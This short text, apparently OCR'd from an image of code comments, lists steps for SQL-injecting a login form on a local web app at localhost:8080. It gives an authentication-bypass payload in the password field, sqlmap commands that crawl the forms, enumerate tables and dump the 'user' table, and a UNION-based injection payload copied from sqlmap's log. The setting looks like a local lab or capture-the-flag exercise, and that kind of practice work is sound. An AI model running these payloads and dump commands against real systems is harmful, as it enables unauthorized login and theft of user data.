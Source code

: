 # 1. username=admin, password=unknown' or '1'='1

# 2. Run `sqlmap -u "http://localhost:8080" --forms --crawl=2`. Log will show injection points are two: username and password

# 3. Run `sqlmap -u "http://localhost:8080" --forms --crawl=2 --tables`

# 4. Run `sqlmap -u "http://localhost:8080" --forms --crawl=2 --tables user --dump`

# 5. From log, find what looks like this:

    Title: Generic UNION query (NULL) - 1 column
    Payload: username=admin&password=OdIo' UNION ALL SELECT CONCAT(CONCAT('qzbkq','tQIkTWFkXrMVhvrqWOCuEXpEyuHPVVWjxqisGIdE'),'qppzq')-- TaxT
